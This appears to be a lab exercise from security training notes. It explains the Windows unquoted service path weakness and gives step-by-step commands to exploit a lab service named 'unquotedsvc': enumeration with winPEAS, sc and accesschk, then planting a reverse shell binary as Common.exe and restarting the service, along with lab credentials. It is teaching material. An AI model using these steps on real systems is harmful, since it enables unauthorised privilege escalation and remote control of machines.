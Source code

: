Consider the following unquoted path: 
````
C:\Program Files\Some Dir\SomeProgram.exe
````
To us, this obviously runs SomeProgram.exe. To Windows, ``C:\Program`` could be 
the executable, with two arguments: ``Files\Some`` and ``Dir\ SomeProgram.exe``
Windows resolves this ambiguity by checking each of the possibilities in turn.
If we can write to a location Windows checks before the actual executable, we 
can trick the service into executing it instead

--- 

**Exercise :**
- IP : 10.12.1.100/24
- ID : student\admin
- PASSWORD : password321

Connect to 10.12.1.100/24 with user account.

1. Run winPEAS to check for service misconfigurations:
    ````
    .\winPEASany.exe quiet servicesinfo
    ````
2. Note that the “unquotedsvc” service has an unquoted path that 
also contains spaces:
    ````
    C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe
    ````
3. Confirm this using sc:
    ````
    sc qc unquotedsvc
    ````

4. Use accesschk.exe to check for write permissions:
    ````
    .\accesschk.exe /accepteula -uwdq C:\
    .\accesschk.exe /accepteula -uwdq "C:\Program Files\"
    .\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
    ````

5. Copy the reverse shell executable and rename it appropriately:
    ````
    copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
    ````

6. Start a listener on Kali, and then start the service to trigger the exploit:
    ````
    net start unquotedsvc
    `````


AND BIM!

---

